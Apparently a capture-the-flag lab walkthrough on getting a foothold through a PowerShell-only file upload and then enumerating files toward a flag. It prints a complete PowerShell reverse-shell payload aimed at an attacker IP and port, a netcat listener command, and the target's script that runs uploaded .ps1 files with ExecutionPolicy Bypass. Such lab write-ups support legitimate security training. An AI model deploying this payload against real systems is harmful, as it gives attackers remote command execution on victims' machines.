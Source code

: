 ## Uploading ps1 file
As the web says you only can upload ps1 files, create one file to POST the output of `whoami /groups` from a PowerShell-only upload to a remote listener.

#Attacking_machine 
 1. Crerate a file called `reverse.ps1`.
 2. Open a netcat listener.
```
 nc -lnvp 4444
```

 3. Go to https://www.revshells.com/ and create a ps1 payload. Fiil the IP field with your ATTACKING MACHINE IP and the port with the listener port.

![[Screenshot_2025-10-24_13-39-45.png]]

4. Paste the payload  to `reverse.ps1` file.
```
$LHOST = "10.8.113.198"; $LPORT = 4444; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

4. Upload the file from the web page.
![[Screenshot_2025-10-23_05-45-56.png]]

#netcat_listener
4. You got a reverse shell.


## Files to review

Run:
```
whoami
dir
```

![[Screenshot_2025-10-30_07-11-19-1.png]]
### File.ps1

1. Look at the content of `File.ps1`.

```
type File.ps1
```

![[Screenshot_2025-10-30_07-13-58.png]]

Here you have the content more clear.


```
$FolderPath = "C:\xampp\htdocs\uploads\"  
$FileDictionary = @{}  
# Populate the initial state of the dictionary with file names and timestamps  
$Files = Get-ChildItem -Path $FolderPath  
foreach ($file in $Files) {  
$FileDictionary[$file.Name] = $file.LastWriteTime  
}  
# Watch for changes in the directory  
while ($true) {  
Start-Sleep -Seconds 1  
# Check for changes in the directory  
$Files = Get-ChildItem -Path $FolderPath  
foreach ($file in $Files) {  
if ($FileDictionary.ContainsKey($file.Name)) {  
# Compare the current timestamp with the stored timestamp  
if ($file.LastWriteTime -ne $FileDictionary[$file.Name]) {  
Write-Host "File $($file.Name) has been modified."  
# Update the dictionary with the new timestamp  
$FileDictionary[$file.Name] = $file.LastWriteTime  
# Check if the file is executable, a PowerShell script, or a pdf document  
$extension = $file.Extension.ToLower()  
if ($extension -eq ".ps1") {  
$scriptPath = "C:\xampp\htdocs\uploads\$($file.Name)"  
try{  
#Invoke-Expression -Command "powershell.exe -ExecutionPolicy Bypass -File $scriptPath"  
Start-Job -ScriptBlock { param($scriptPath) powershell.exe -ExecutionPolicy Bypass -File $scriptPath } -ArgumentList $scriptPath  
}  
catch {  
Write-Host "An exception occurred: $_.Exception.Message"  
}  
#Write-Host "Opening file: $($file.Name)"  
#Start-Process -FilePath $file.FullName  
}  
}  
} else {  
# New file detected  
Write-Host "File $($file.Name) has been added."  
# Add the new file to the dictionary  
$FileDictionary[$file.Name] = $file.LastWriteTime  
# Check if the file is executable, a PowerShell script, or a pdf document  
$extension = $file.Extension.ToLower()  
if ($extension -eq ".ps1") {  
$scriptPath = "C:\xampp\htdocs\uploads\$($file.Name)"  
try{  
#Invoke-Expression -Command "powershell.exe -ExecutionPolicy Bypass -File $scriptPath"  
Start-Job -ScriptBlock { param($scriptPath) powershell.exe -ExecutionPolicy Bypass -File $scriptPath } -ArgumentList $scriptPath  
}  
catch {  
Write-Host "An exception occurred: $_.Exception.Message"  
}  
#Write-Host "Opening file: $($file.Name)"  
#Start-Process -FilePath $file.FullName  
}  
}  
}  
# Check for deleted files  
$deletedFiles = @()  
foreach ($fileName in $FileDictionary.Keys) {  
if (-not (Test-Path -Path (Join-Path $FolderPath $fileName))) {  
Write-Host "File $fileName has been deleted."  
# Add the deleted file to the array for removal  
$deletedFiles += $fileName  
}  
}  
# Remove the deleted files from the dictionary  
foreach ($deletedFile in $deletedFiles) {  
$FileDictionary.Remove($deletedFile)  
}  
}
```

This tells you the VM is running a loop that checks `C:\xampp\htdocs\uploads\` for new PS1s and then runs them via `Start-Job -ScriptBlock { param($scriptPath) powershell.exe -ExecutionPolicy Bypass -File $scriptPath } -ArgumentList $scriptPath` command.

2. Go to `C:\xampp\htdocs\uploads\`.
3. Check the files.
```
cd C:\xampp\htdocs\uploads\
dir
```

![[Screenshot_2025-10-30_07-23-24.png]]

There's a file called `vulnerable.ps1`.



### encodedflag

#netcat_listener 
Run the following commands:

```

cd ..
cd Desktop
```

![[Screenshot_2025-10-24_14-11-30.png]]

There's a file called `encodedflag`.

**Next step:** [[User level flag]]